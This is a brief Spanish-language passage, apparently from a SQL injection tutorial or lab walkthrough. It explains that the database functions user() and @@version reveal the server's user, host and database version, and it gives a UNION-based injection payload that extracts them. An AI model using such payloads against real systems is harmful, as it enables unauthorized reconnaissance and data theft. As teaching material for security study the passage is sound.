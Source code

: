 ![](images/imagen32.png)

- Aquí podemos usar las funciones `user()` que nos devulve el usuario y host que está ejecutando el servidor, y @@version que nos muestra la versión de la BBDD.

```
iron' union select 1,user(),@@version,4,5,6,7# 
```

![](images/imagen33.png)
